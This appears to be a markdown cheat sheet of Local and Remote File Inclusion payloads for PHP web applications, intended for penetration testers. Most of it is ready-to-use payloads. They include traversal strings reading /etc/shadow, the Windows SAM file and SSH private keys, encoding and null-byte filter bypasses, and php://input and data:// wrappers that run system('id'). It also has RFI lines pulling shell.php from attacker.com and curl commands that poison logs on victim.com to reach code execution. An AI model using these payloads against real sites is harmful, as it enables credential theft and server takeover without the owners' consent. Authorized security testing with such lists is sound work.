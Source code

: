 # LFI and RFI Payload Cheat Sheet

This cheat sheet contains a detailed list of Local File Inclusion (LFI) and Remote File Inclusion (RFI) payloads for testing and exploiting file inclusion vulnerabilities. **Note:** These payloads are intended for educational and authorized testing purposes only.

---

## Contents

- [Basic LFI Payloads](#basic-lfi-payloads)
- [Directory Traversal LFI Payloads](#directory-traversal-lfi-payloads)
- [LFI with Null Byte Injection](#lfi-with-null-byte-injection)
- [PHP Wrappers for LFI](#php-wrappers-for-lfi)
- [RFI Payloads](#rfi-payloads)
- [Bypassing Filters for LFI/RFI](#bypassing-filters-for-lfirfi)
- [LFI to RCE (Remote Code Execution)](#lfi-to-rce-remote-code-execution)
- [Advanced LFI Techniques](#advanced-lfi-techniques)

---

## Basic LFI Payloads

Basic LFI payloads leverage direct access to system files or application files through vulnerable parameters.

```php
?page=/etc/passwd
?page=../../../../../etc/passwd
?page=/proc/self/environ
?page=/var/log/apache2/access.log
?page=C:\Windows\System32\drivers\etc\hosts
```

---

## Directory Traversal LFI Payloads

Traversing directories is essential for accessing files outside the web root.

```php
?page=../../../../etc/passwd
?page=../../../../etc/issue
?page=../../../../var/log/auth.log
?page=../../../../proc/self/status
?page=../../../../proc/self/cmdline
```

### Common Files to Target

- **Unix-based**: `/etc/passwd`, `/etc/shadow`, `/proc/self/environ`, `/var/log/apache2/access.log`
- **Windows-based**: `C:\Windows\win.ini`, `C:\Windows\System32\config\SAM`, `C:\Windows\System32\drivers\etc\hosts`

---

## LFI with Null Byte Injection

Some applications can be tricked into reading files by injecting a null byte (`%00`) to bypass file extension checks.

```php
?page=/etc/passwd%00
?page=../../../../etc/issue%00
?page=../../../../proc/self/environ%00
?page=../../../../var/log/auth.log%00
```

> **Note**: Null byte injection may only work in PHP versions prior to 5.3.4 due to security improvements.

---

## PHP Wrappers for LFI

PHP wrappers enable LFI to access files with alternative encodings, streams, and methods.

### PHP Filter Wrappers

```php
?page=php://filter/convert.base64-encode/resource=index.php
?page=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

### PHP Data Wrapper

Embedding malicious PHP code directly with `data://` can lead to remote code execution if file includes aren’t properly sanitized.

```php
?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==  // Base64-encoded "<?php phpinfo(); ?>"
```

### PHP Expect Wrapper (If enabled)

```php
?page=expect://ls
```

### PHP Input Wrapper

The `php://input` wrapper allows reading raw POST data, which is useful for injecting PHP code if the input is included.

```php
POST /index.php?page=php://input
Content-Type: application/x-www-form-urlencoded

<?php system('id'); ?>
```

---

## RFI Payloads

Remote File Inclusion (RFI) exploits allow external files to be included, potentially executing attacker-controlled code.

```php
?page=http://attacker.com/malicious.txt
?page=https://attacker.com/shell.php
?page=ftp://attacker.com/payload.txt
```

> **Note**: Modern PHP settings often disable `allow_url_include` by default, which prevents direct RFI attacks.

---

## Bypassing Filters for LFI/RFI

Bypassing filters can be essential in situations where direct file paths are blocked.

### Encoding

Using URL encoding can bypass certain filters.

```php
?page=..%2f..%2f..%2f..%2fetc%2fpasswd
?page=../../../../../../../../etc/passwd%2500
```

### Wrapping Directory Traversals

Attempting to obfuscate by interleaving traversal sequences.

```php
?page=....//....//....//etc/passwd
?page=....//....//....//proc/self/environ
```

### Double Encoding

Using double URL encoding can sometimes bypass restrictive filters.

```php
?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

---

## LFI to RCE (Remote Code Execution)

Some LFI vulnerabilities can be escalated to remote code execution if the attacker can write to log files or other files that are included by the application.

### Exploiting Log Files

If you can inject PHP code into server logs, you may be able to achieve RCE by including these files.

1. Inject payload into a log file:

    ```bash
    curl "http://victim.com/index.php?page=/var/log/apache2/access.log" -A "<?php system('id'); ?>"
    ```

2. Access the log file via LFI:

    ```php
    ?page=/var/log/apache2/access.log
    ```

### Exploiting `/proc/self/environ`

Some environments store environment variables in `/proc/self/environ`, allowing code execution if the user-agent or other variables can be injected.

```bash
curl -A "<?php system('id'); ?>" "http://victim.com/index.php?page=/proc/self/environ"
```

---

## Advanced LFI Techniques

Advanced LFI techniques target specific files and include methods to manipulate them for greater exploit potential.

### Using SSH and FTP Configuration Files

In cases where LFI is possible, attempting to read SSH or FTP config files may reveal sensitive credentials.

```php
?page=../../../../../../.ssh/id_rsa
?page=../../../../../../etc/ssh/sshd_config
```

### Using `/proc/self/fd`

On Linux, `/proc/self/fd/` can be used to read file descriptors of running processes, which may expose additional files.

```php
?page=/proc/self/fd/0
?page=/proc/self/fd/1
?page=/proc/self/fd/2
```

### Base64 Encoding PHP Code for Data URIs

Encoding PHP code with Base64 for `data://` wrappers allows executing code directly.

```php
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg== // "<?php system('id'); ?>"
```

---

## Additional Notes

- **File Encoding**: In cases where files are unreadable, try using `php://filter` to convert them into readable formats.
- **RFI and Firewalls**: RFI is often blocked by firewalls, but sometimes bypasses are possible using alternate protocols or tunneling techniques.
- **Common PHP Wrappers**: Wrappers like `php://input`, `php://filter`, and `data://` are highly useful in LFI/RFI testing.
  
---

### License

This cheat sheet is open-sourced and can be used for ethical testing and research. Unauthorized or illegal testing is prohibited.

---

